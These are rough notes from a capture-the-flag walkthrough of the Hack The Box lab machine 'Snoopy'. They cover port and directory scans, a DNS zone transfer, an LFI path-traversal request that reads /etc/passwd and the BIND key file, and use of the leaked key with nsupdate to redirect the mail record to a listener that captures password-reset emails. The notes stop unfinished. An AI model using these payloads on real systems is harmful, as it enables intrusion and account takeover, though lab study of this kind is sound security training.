


sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.150.83 -oG allPorts

https://hyperbeast.es/snoopy-htb/

nmap 10.10.11.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 02:29 EDT
Nmap scan report for 10.10.11.212
Host is up (0.80s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 69.73 seconds
                                                    
Attention: As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.

Error: Unable to load the "PHP Email Form" Library!

so php 


```
gobuster dir --url http://snoopy.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

/index.html           (Status: 200) [Size: 23418]
/about.html           (Status: 200) [Size: 16614]
/contact.html         (Status: 200) [Size: 10248]
/download             (Status: 200) [Size: 11363570]
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]
/team.html            (Status: 200) [Size: 11115]

/download             (Status: 200) [Size: 11363570]
Progress: 232 / 441122 (0.05%)[ERROR] 2023/07/14 04:58:09 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]


nmap -p22,53,80 -sCV 10.129.150.83 -oN targeted

We enumerate the DNS by performing a zone transfer to discover possible subdomains.

so DNS enumeration is required

https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/

dig command syntaxt snoopy.htb @<snoopy actual ip>
dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 276 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Fri Jul 14 07:21:55 EDT 2023
;; XFR size: 11 records (messages 1, bytes 325)


but when we try t capture the request of downloading the package we find

GGET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

also there is an lfi vulnerability

GET /download?file=....//....//....//....//etc/passwd HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


we know lfi wxists tso the way to get ot the configuration key is by looking into /etc/bind/named.conf

```
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the 
// structure of BIND configuration files in Debian, *BEFORE* you customize 
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

exploit mail dns

 nsupdate                  
> server 10.10.11.212 53
> key hmac-sha256:rndc-key BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
> zone snoopy.htb
> update add mail.snoopy.htb 86400 A 10.10.16.47
> send

starting python smtpd server

python3 -m smtpd -c DebuggingServer -n 10.10.16.47:25

we added mm.snoopy.htb

a matter most page opens



then we go and reset our password

we reset password for at password reset page

cschultz@snoopy.htb

but not able to



nothing came maybe because we did not transfer the zone properly before


```

